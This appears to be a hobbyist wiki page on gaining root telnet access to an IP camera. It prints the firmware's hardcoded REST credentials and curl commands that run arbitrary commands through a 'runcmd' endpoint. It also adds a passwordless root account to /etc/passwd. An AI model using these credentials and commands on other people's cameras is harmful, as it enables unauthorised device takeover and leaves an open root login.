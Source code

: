 ### Starting telnetd

The camera original FW runs a REST server with authentication (user: PpStRoNg, password: #%&wL1@\*tU123zv).

One of the most interesting features is the "runcmd" function (replace \<your_cam_ip\> with your camera IP address):

Send request (note the \\ escaping the & for the password):
```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://\<your_cam_ip\>:80/devices/runcmd --request POST --data '{"cmd":"ls"}'
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 0
```

Get output (json format):
```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://\<your_cam_ip\>:80/devices/runcmd
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 129
{
        "value":        "usr\nsys\netc\nmnt\nlib\nproc\nboot\nopt\nlinuxrc\nbin\ndev\ninit\nhome\nsbin\nnfsroot\nroot\ntmp\nvar\ndevinfo\n"
}
```

In the latest FW they have removed the "telnetd" binary so you need to place it on the sdcard:
[telnetd.zip](https://github.com/ljalves/wiki/files/7875319/telnetd.zip)


To start the server copy the telnetd binary to the sdcard and run:
```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://\<your_cam_ip\>:80/devices/runcmd --request POST --data '{"cmd":"echo 'anyone::0:0:root:/:/bin/sh' >> /etc/passwd"}'
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://\<your_cam_ip\>:80/devices/runcmd --request POST --data '{"cmd":"/mnt/mmc01/telnetd &"}'
```

At this point you should be able to telnet to the camera:
```
$ telnet \<your_cam_ip\>
Trying \<your_cam_ip\>...
Connected to \<your_cam_ip\>.
Escape character is '^]'.
(none) login: anyone


BusyBox v1.26.2 (2019-04-16 05:35:27 PDT) built-in shell (ash)

/ #
```


